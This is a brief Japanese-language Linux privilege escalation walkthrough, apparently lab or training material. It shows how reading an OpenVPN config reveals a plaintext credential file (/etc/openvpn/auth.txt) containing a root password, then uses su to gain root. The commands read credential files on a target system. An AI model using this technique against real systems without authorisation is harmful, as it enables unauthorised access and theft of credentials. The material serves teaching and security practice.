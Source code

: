 多くのサービスやプログラムは、設定を保存するためにコンフィギュレーション（config）ファイルを使用します。   
サービスが何かに対して認証を行う必要がある場合、その認証情報を設定ファイルに保存することがあります。   
これらの設定ファイルにアクセス可能で、保存されているパスワードが特権ユーザーによって再利用される場合、そのユーザーとしてログインするためにそれを使用することができるかもしれません。   
# Privilege Escalation
1. ユーザーのホームディレクトリの内容を一覧表示します。   
```
$ ls
myvpn.ovpn tools
```
2. myvpn.ovpnの設定ファイルの内容を表示します。
```
$ cat myvpn.ovpn
...
auth-user-pass /etc/openvpn/auth.txt
...
```
OpenVPN の auth-user-pass オプションは、ファイル (/etc/openvpn/auth.txt) に認証情報を平文で保存することが可能です。
3.  etc/openvpn/auth.txt ファイルの内容を表示します。
```
$ cat /etc/openvpn/auth.txt
root
password123
```
4. su コマンドを使用して、auth.txt ファイルにあるパスワードを使用して、root ユーザーアカウントに切り替わります。
```
$ su root
Password:
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```
---